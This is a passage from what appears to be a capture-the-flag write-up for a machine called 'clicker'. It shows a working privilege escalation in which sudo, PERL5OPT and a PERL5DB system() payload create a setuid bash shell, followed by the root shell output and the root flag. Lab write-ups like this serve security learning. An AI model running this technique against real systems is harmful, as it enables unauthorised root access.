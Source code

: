 ```bash
    <PWD>/</PWD>
  </environment>
</data>
```

Check out `/usr/bin/xml_pp`, it's a `perl` script

![](/assets/obsidian/e7bae895c1c73204ba6d963f107ba094.png)

Remember these two lines? Seems to be some sort of defensive measure

```bash
unset PERL5LIB;
unset PERLLIB;
```

Search `perl` in **0xsyr0**'s handbook section : `post_exploitation`

> https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/10_post_exploitation.md#environment-variable-arbitrary-code-execution

```bash
jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("cp /bin/bash /tmp/b&&chmod u+s /tmp/b");' /opt/monitor.sh
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.
jack@clicker:~$ /tmp/b -p
b-5.1# id
uid=1000(jack) gid=1000(jack) euid=0(root) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
b-5.1# cat /root/root.txt
d4b9e2e5669e56ff97d7f05902dc765d
b-5.1#
```


# Additional
---
